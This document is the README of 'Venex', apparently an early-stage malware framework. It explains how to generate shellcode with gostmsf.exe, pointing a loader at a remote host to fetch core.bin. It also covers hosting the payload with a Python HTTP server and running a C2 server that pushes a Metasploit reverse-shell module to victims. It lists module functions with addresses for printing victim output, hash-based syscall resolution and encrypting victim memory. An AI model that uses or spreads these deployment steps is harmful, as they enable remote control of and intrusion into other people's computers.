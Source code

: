 # Venex
;first i want to say you my english is not perfect
;this is 0.2 test version we will upgrade

## HOW DO I USE THIS
;first we will look at file structers or user im not gonne tell you sorce code if you are new to hacking dont look at /gostinit
;your role is mostly inside /tools/bin this contain all tool you need

;encrypt.exe --> dont touch unless you make module for this
;obufcater.exe --> dont touch unless you make module for this
;hash.exe --> dont touch unless you make module for this
;gostmsf.exe --> this is the tool you can generate shellcode(not just a shellcode it is core we call it shellcode engine), test/debug loader

## HOW DO I USE gostmsf (msf mean not metasploit just chill)
;just run ./gostmsf.exe "c2 Ip adress port is 80" "curl string for loader ex: http://99.88.77.66:5555/core.bin" then you will see things
;core part is store inside /xMain/core/core.bin run http server inside /xMain/core/ for example : python -m http.server 5555 

;then run c2 /server/server.exe this is not full server simple testing server just send encrypted module(not safe module just msf revshellcode 74 byte) to core

## HOW DO I MAKE MODULES FOR THIS (< 512b)

;this is proved a function remember this is version 0.1 still test stage it mean only few functions
;every function have MBA(module base adress) it mean if adress is function adress is -5
;you can aceess it from your module start rip-5


;gostPrint(&message,len):0xFFFFF9CD this is printf but print victim output on server

;gostGetSyscall(syscallhash):0xFFFFF95A you dont need to do mov rax,syscallnumber alway use this

;gostEXESyscall():0xFFFFFA8E you dont need to hardcode syscall instruction just call gostEXESyscall()

;gostEncrypt(&buffer,len):0xFFFFFAA6 you can encrypt eny memory value inside victime memory

;WARNING: gostPrint() is internely encrypt data you can pass unencrypted string

;after compiled binary sing with signatuer or turn on dinamicaly sign on server.exe